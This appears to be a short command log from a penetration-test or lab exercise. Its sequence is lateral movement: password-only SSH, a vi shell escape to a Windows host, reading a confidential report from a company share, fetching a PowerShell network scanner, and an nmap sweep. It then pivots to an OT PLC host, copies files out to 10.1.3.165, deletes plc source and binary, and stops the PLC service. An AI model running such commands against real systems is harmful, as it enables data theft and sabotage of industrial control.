 ```
cd Documents 
ls 
scp -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password secret.txt debian@10.1.3.165:/home/debian 
ssh -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password TestAdmin@10.0.1.20 -p 666
ssh -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password TestAdmin@10.0.1.20

-->

:!sh
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

ls
powershell 
whoami
ls
cd ..
cd ..
ls
cd .\shares\
ls
cd .\company\
ls
type .\confidential_report.txt
scp -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password .\confidential_report.txt debian@10.1.3.165:/home/debian/
cd ..
cd ..
Invoke-WebRequest 'https://raw.githubusercontent.com/BornToBeRoot/PowerShell_IPv4NetworkScanner/refs/heads/main/Scripts/IPv4NetworkScan.ps1' -OutFile scan.ps1 
nmap -A 10.0.2.0/24
ssh -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password debian@10.0.2.17 -p 80

--> 

Linux OT-Linux-PLC 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

ls
scp -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password plc debian@10.1.3.165:/home/debian/
scp -o PasswordAuthentication=yes -o PubkeyAuthentication=no -o PreferredAuthentications=password plc.c debian@10.1.3.165:/home/debian/
rm plc 
rm plc.c 
sudo service plcd stop
```   


[localhost]: PS C:\Users\adm1n\Documents> whoami
[localhost]: PS C:\Users\adm1n\Documents> whoami